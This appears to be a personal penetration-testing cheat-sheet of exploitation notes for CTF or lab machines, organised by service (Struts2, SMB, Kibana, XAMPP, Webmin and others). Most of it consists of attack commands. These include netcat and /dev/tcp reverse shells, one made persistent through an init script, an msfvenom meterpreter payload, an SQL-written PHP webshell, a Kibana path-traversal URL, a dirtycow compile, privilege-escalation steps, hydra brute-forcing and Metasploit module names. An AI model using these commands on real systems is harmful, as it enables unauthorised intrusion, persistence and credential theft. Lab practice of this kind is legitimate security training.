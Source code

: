 # Pwn'd
- https://ippsec.rocks/?#
### Apache Struts2
- 80/tcp  open  http    Apache Tomcat/Coyote JSP engine 1.1
- |_http-server-header: Apache-Coyote/1.1
- | http-title: Santa Naughty and Nice Tracker
- USE: 
````
search struts2
exploit(multi/http/struts2_content_type_ognl)
````
- 445/tcp open  miscrosoft-ds
- Run the nmap eternal scripts
- USE:
````
nmap --scripts=smb-vuln* $ip
exploit(windows/smb/ms08_067_netapi)
````
### Wing FTP Server
- 21/tcp open  wingftp
- Gain access to the admin panel
````
search lua
exploit(windows/ftp/wing_ftp_admin_exec)
````
### Mantis Bug Tracker
- 80/tcp  open  http  mantisbt-2.3.0
- CVE:2019-15715 2017-7615
- Mantis Bug Tracker 2.3.0 - Remote Code Execution (Unauthenticated)
- 110/tcp open  POP3 
- James POP3 Server 2.3.2
- https://www.exploit-db.com/exploits/35513
````
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 | nc 172.16.6.2 3333 >/tmp/f
echo "#!/bin/bash" > /etc/init.d/james
echo "bash -i >& /dev/tcp/172.16.6.2/5555 0>&1" >> /etc/init.d/james
cat /etc/init.d/james
sudo /sbin/reboot
````
- Version: Apache Tomcat/8.0.47
- OS: Microsoft Windows 2008| Vista | 7
- exploit: multi/http/struts2_rest_xstream
- Targeturi: /struts2-rest-showcase/orders/
### Kibana
- 5601 is the elastic search port, 9200 is the api
````
curl -X GET "10.10.15.175:9200/_search?q=password&pretty"                                                                                                                                                                  130 ⨯
{
  "took" : 11,
  "timed_out" : false,
  "_shards" : {
    "total" : 6,
    "successful" : 6,
    "skipped" : 0,
    "failed" : 0
  },
  "hits" : {
    "total" : 1,
    "max_score" : 2.0136302,
    "hits" : [
      {
        "_index" : "messages",
        "_type" : "_doc",
        "_id" : "73",
        "_score" : 2.0136302,
        "_source" : {
          "sender" : "mary",
          "receiver" : "wendy",
          "message" : "hey, can you access my dev account for me. My username is l33tperson and my password is 9Qs58Ol3AXkMWLxiEyUyyf"
````
- If there are log files like on port 8000 which are showing you active kabana logs you can have a LFI vulnerability
- Go to the 5601 port and add this extension `/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../.../../../../root.txt`
````
10.10.156.71:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../.../../../../root.txt
````
- Then curl the logs and grep for root.txt
````
curl -s http://10.10.31.117:8000/kibana-log.txt | grep "root.txt" 
````
- Also can be used to get a shell in other situations
- https://github.com/mpgn/CVE-2018-17246
### Sync Breeze Enterprise
- https://www.exploit-db.com/exploits/40456
````
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=172.16.6.1 LPORT=4444 -e x86/shikata_ga_nai -b '\x00\x0a\x0d\x26' -f python --smallest
````
### Microsoft ds
````
exploit/windows/smb/ms17_010_eternalblue
````
### Android
- 5555/tcp  open  freeciv
- Install adb
````
adb connect [target ip address:port]
````
### Joomla versions 3.6.3
- Able to use joomra.py in order to create an account and login 
````
python3 joom.py -u jack -p password -e jack@gmail.com http://10.10.10.10
````
- Edit the templates 
- Add in webshell
- Can read the config files which has the use and password, then can ssh in
### XAMPP
- Got in through phpmyadmin [root:no password]
- Able to get shell through SQL database commands
````
SELECT "<?php echo shell_exec($_GET['cmd']); ?>" into outfile "C:/xampp/htdocs/xampp/shell.php";
````
- Then browse to:
````
10.10.10.10/xampp/shell.php?cmd=dir
````
- Look for config files with passwords
````
C:\xampp\htdocs\admin\config.php
````
### Lucky GetSimple!
````
10.16.1.2/data/users/lucky.xml
````
- See the config file and passwd hash with username, crack in john 
- PE with dirtycow [CVE-2016-5195]
- Compile with
````
g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
````
### Dolphin Wordpress
- Dolphin <7.3.2 Auth bypass / RCE exploit by Ahmed Sultan
### Codiad Impresscms
````
10.10.10.10/codiad/data/users.php
````
- Upload web shell
- Found SSH creds
### Backupadmin
- Priv Esc on box with Amanda running, view by
````
ls -al /usr/lib/amanda
echo '#!/bin/sh
> /bin/sh' > priv.sh
chmod +x priv.sh
/usr/lib/amanada/application/amstar restore --star-path=/tmp/priv.sh
$ whoami
root
````
#### mysql Brute Force
- mysql 3306 running on the target
````
hydra -l root -P /usr/share/wordlists/rockyou.txt mysql://10.16.1.11
mysql -u root 10.16.1.11 -p
SHOW DATABASES;
SHOW TABLES FROM helpdesk;
USE helpdesk;
SELECT * FROM ost_form_entry;
````
### IP Fire 2.15
- Brute the admin default [admin:admin]
- https://github.com/0xskunk/IPFire-2.15-Shellshock-Exploit/blob/master/SIPS.py
### Webmin
- MiniServ 1.890 (Webmin httpd)
- https://github.com/foxsin34/WebMin-1.890-Exploit-unauthorized-RCE/blob/master/webmin-1.890_exploit.py
- Read /etc/shadow
- Add user
- Reverse Shells
- Read the config files
- Will run as root










































